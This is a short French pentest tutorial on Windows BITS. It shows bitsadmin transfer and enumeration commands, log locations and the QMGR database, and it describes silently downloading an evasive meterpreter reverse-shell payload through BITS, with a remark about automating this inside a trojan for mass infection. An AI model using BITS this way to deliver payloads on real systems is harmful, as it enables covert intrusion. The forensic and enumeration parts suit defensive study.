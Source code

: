 ### Introduction à BITS : 

BITS veux dire Background Intelligent Transfer Service est un service très utilisé pour télécharger des fichiers à partir ou vers des serveurs Web HTTP et partage de fichier SMB. BITS est suffisamment autonome pour réduire un maximum les couts pour que se soit le plus optimisé possible pour l'utilisateur ou le programmeur car oui BITS peux aussi etre utile en programmation, BITS est programmable en C/C++ et peut etre appellé dans du .NET tout cela grace à COM.
BITS possède une version CLI qui s'appelle BitsAdmin et des commandes incluses dans le powershell. BITS peut etre utilisé pour de l'administration avec des systèmes de Logs depuis des actions comme /transfer ou les protocoles SANP ( protocoles de notification ) exemple : `SetNotifyFlag`. En pentest, BITS est très utilisé pour du EOAP ( Exfiltration over Alternative Protocol).
Utilisation de bitsadmin et analyse du traffics :

```powershell
bitsadmin /transfer howtohack http://192.168.1.45:8000/ak.txt "C:\Users\hth\Documents\ak.txt"
```

- **DISPLAY**: nom de job
- **FILE**: nombre de fichier
- **BYTES**: tailles du fichier "c le hack"
- **PRIORITY**: correspond à l'ordre de téléchargement
- **STATE**: Transféré, état du job.

on peux aussi l'utiliser avec le modules du PowerShell : `BitsTransfer`
```powershell
Import-Module BitsTransfer
```

BITS supporte par défaut le transfère asynchrone mais vous pouvez y précisez via l'argument `-Asychronous`, pour la validation du fichier il faut utiliser `Complete-BitsTransfer`.
Téléchargement d'un reverse shell meterpreter silencieusement : 

![image](https://user-images.githubusercontent.com/75935486/152225631-6de1bd82-5dc8-4ac3-b861-a73634d4fe45.png)

on lance le server HTTP et on télécharge la charge utile evasive via BITS en asynchrone. Dans un cadre de contamination en masse on peux rendre le téléchargement automatique en C ou C++ dans une tierce parti de Trojan, mais dans le cadre éducatif on reste dans des choses simple.


#### BITSAdmin enumeration : 

```powershell
# listé les jobs
bitsadmin /list
# avoir plus d'info sur un job
bitsadmin /info 482FCAF0-74BF-469B-8929-5CCD028C9499 /verbose
# géré les jobs actuels
bitsadmin /monitor
# un seul job à géré
bitsadmin /monitor 482FCAF0-74BF-469B-8929-5CCD028C9499
# info complète (Notify, Proxy, GUID...) sur tout les jobs actif :
bitsadmin /info
```

Logs BITS : `C:\Windows\System32\winevt\Logs\Microsoft-Windows-Bits-Client%4Operational`

![image](https://user-images.githubusercontent.com/75935486/152225800-497abaf1-1545-48b0-903e-9d87c51242f6.png)


#### BITS Enumeration depuis des requetes SC et depuis la db QMGR & ESE : 

QMGR signifie Querie Manager, il enregistre chaque activité de chaque BITS Job dans une base de données mais c'est chiffré, il faut utiliser hex editor ou autre editeur de base16 pour ésperer dump quelque chose.
ici ce qui nous interesse c'est QMGR.db car c'est que sont loggé les infos des BITS Job

![image](https://user-images.githubusercontent.com/75935486/152225890-df0b4a93-7476-4513-bd75-b470dc0752a3.png)


#### Pesistence avec BITS : 


Compromissions de Windows BITS:
- https://www.secureworks.com/blog/malware-lingers-with-bits

développement C++/C/.NET avec intégration de BITS : 
- https://docs.microsoft.com/en-us/windows/win32/bits/using-bits
